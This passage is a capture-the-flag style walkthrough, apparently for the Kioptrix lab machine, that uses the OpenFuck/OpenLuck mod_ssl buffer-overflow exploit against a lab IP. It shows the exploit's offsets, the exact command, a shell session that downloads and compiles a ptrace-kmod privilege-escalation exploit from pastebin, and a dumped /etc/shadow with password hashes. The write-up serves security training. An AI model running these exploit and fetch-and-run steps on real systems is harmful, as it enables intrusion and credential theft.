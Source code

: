 
**Our First step is to make research on this particular version and see if there are vulnerabilities and exploits**

Going to google and searching this way gives us a Remote Buffer overflow attack and target is vulnerable to **OpenFuck**:

![](https://i.imgur.com/tpg9NNp.png)

We can also confirm these by using **searchsploit**;

![](https://i.imgur.com/sKAQcHW.png)

---

## Exploitation

**We will be using the GitHub exploit, seems cool and updated, Naturally, if you see a github exploit, try to try it out first before choosing another**

- We can access the GitHub exploit from the first link after our Google search; https://github.com/heltonWernik/OpenLuck
- Follow the download instructions and let get to the exploitation stage
- here is the syntax for running the command:

```sh
┌──(sec-fortress㉿kali)-[~/kioptrix/OpenFuck]                                                 
└─$ ./bankai                                                                                  

*******************************************************************                           
* OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *                           
*******************************************************************                           
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *                           
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

: Usage: ./bankai target box [port] [-c N]                                                    

  target - supported box eg: 0x00                                                             
  box - hostname or IP address                                                                
  port - port for ssl connection                                                              
  -c open N connections. (use range 40-50 if u dont know)

  Supported OffSet:                                                                           
        0x00 - Caldera OpenLinux (apache-1.3.26)                                              
        0x01 - Cobalt Sun 6.0 (apache-1.3.12)                                                 
        0x02 - Cobalt Sun 6.0 (apache-1.3.20)                                                 
        0x03 - Cobalt Sun x (apache-1.3.26)                                                   
        0x04 - Cobalt Sun x Fixed2 (apache-1.3.26)                                            
        0x05 - Conectiva 4 (apache-1.3.6)                                                     
        0x06 - Conectiva 4.1 (apache-1.3.9)                                                   
        0x07 - Conectiva 6 (apache-1.3.14)                                                    
        0x08 - Conectiva 7 (apache-1.3.12)                                                    
        0x09 - Conectiva 7 (apache-1.3.19)                                                    
        0x0a - Conectiva 7/8 (apache-1.3.26)                                                  
        0x0b - Conectiva 8 (apache-1.3.22)                                                    
        0x0c - Debian GNU Linux 2.2 Potato (apache_1.3.9-14.1)                                
        0x0d - Debian GNU Linux (apache_1.3.19-1)                                             
        0x0e - Debian GNU Linux (apache_1.3.22-2)                                             
        0x0f - Debian GNU Linux (apache-1.3.22-2.1)                                           
        0x10 - Debian GNU Linux (apache-1.3.22-5)                                             
        0x11 - Debian GNU Linux (apache_1.3.23-1)                                             
        0x12 - Debian GNU Linux (apache_1.3.24-2.1)                                           
        0x13 - Debian Linux GNU Linux 2 (apache_1.3.24-2.1)                                   
        0x14 - Debian GNU Linux (apache_1.3.24-3)                                             
        0x15 - Debian GNU Linux (apache-1.3.26-1)                     
        0x16 - Debian GNU Linux 3.0 Woody (apache-1.3.26-1)

		.....
```

- Very good, so we can now do `./bankai 0x6b 172.16.216.130 -c 50`

***Note:**

- You don't need to specify the port for ssl connection since nmap doesn't return one
- Also make sure that target(0x00) is not mixed with box(172.16.216.130)
- Irrespective of choosing the right target, make sure your offset is set correctly
	- In our case it is **0x6b - Red Hat Linux 7.2 (Apache-1.3.20-16)2** because nmap told us so, also make sure to remember setting the target to `0x6b` so you wont get errors

- Once we are ready, run the exploit and we should be fine if target == vulnerable

```sh
┌──(sec-fortress㉿kali)-[~/kioptrix/OpenFuck]
└─$ ./bankai 0x6b 172.16.216.130 -c 50

*******************************************************************
* OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

Connection... 50 of 50
Establishing SSL connection
cipher: 0x4043808c   ciphers: 0x80f81c8
Ready to send shellcode
Spawning shell...
bash: no job control in this shell
bash-2.05$ 
race-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; m/raw/C7v25Xr9 -O pt 
--13:53:30--  https://pastebin.com/raw/C7v25Xr9
           => `ptrace-kmod.c'
Connecting to pastebin.com:443... connected!
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/plain]

    0K ...                                                    @   1.28 MB/s

13:53:30 (982.91 KB/s) - `ptrace-kmod.c' saved [4026]

ptrace-kmod.c:183:1: warning: no newline at end of file
/usr/bin/ld: cannot open output file p: Permission denied
collect2: ld returned 1 exit status
ls
p
whoami
root
sudo -l
User root may run the following commands on this host:
    (ALL) ALL
cat /etc/shadow
root:$1$XROmcfDX$tF93GqnLHOJeGRHpaNyIs0:14513:0:99999:7:::
bin:*:14513:0:99999:7:::
daemon:*:14513:0:99999:7:::
adm:*:14513:0:99999:7:::
lp:*:14513:0:99999:7:::
sync:*:14513:0:99999:7:::
shutdown:*:14513:0:99999:7:::
halt:*:14513:0:99999:7:::
mail:*:14513:0:99999:7:::
news:*:14513:0:99999:7:::
uucp:*:14513:0:99999:7:::
operator:*:14513:0:99999:7:::
games:*:14513:0:99999:7:::
gopher:*:14513:0:99999:7:::
ftp:*:14513:0:99999:7:::
nobody:*:14513:0:99999:7:::
mailnull:!!:14513:0:99999:7:::
rpm:!!:14513:0:99999:7:::
xfs:!!:14513:0:99999:7:::
rpc:!!:14513:0:99999:7:::
rpcuser:!!:14513:0:99999:7:::
nfsnobody:!!:14513:0:99999:7:::
nscd:!!:14513:0:99999:7:::
ident:!!:14513:0:99999:7:::
radvd:!!:14513:0:99999:7:::
postgres:!!:14513:0:99999:7:::
apache:!!:14513:0:99999:7:::
squid:!!:14513:0:99999:7:::
pcap:!!:14513:0:99999:7:::
john:$1$zL4.MR4t$26N4YpTGceBO0gTX6TAky1:14513:0:99999:7:::
harold:$1$Xx6dZdOd$IMOGACl3r757dv17LZ9010:14513:0:99999:7:::
```

- Therefore we can now see our exploit was executed, thereby giving us shell as **root**, sweet🥹, Not just that we have 3 active users on this system which are John, Harold and Root